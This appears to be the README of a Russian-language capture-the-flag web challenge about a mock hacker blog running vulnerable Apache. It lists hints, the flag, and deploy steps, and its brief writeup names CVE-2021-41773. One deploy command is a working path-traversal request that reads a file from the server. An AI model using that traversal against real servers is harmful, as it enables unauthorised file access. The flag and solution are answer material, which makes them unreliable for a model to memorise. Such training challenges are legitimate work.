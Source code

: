 __Category__: 
* Web

__Author__: 
* @RegularITCat

__Description__: 
Еу!
чек ит аут, очередной скрипт кидди, думающий что он крутой хакер, сделал свой блог. Как думаешь, расковыряем?

__Flag__: 
* YetiCTF{damn_br0_wanna_hackThingsWithMeX}

__Hints__: 
* О, Апач, норм.
* Ну и дичь он конечно пишет... Хотя, пост Tired интересный
* Зачекайка свеженькие proof of concept 

__Deploy__: 
* `docker build -t kiddieblog .; docker run -dp 8081:8081 --name kiddieblog kiddieblog`
* `curl "http://localhost:80/cgi-bin/.%2e/.%2e/.%2e/.%2e/easterEgg/flag.txt"`
* `docker stop kiddieblog && docker rm kiddieblog`

__Writeup__: 

Это просто cve-2021-41773
Основная идея в том, что вы почитаете блог, увидите со временем, что он написан на апаче, пойдете поищете уязвимости, да похекаете.
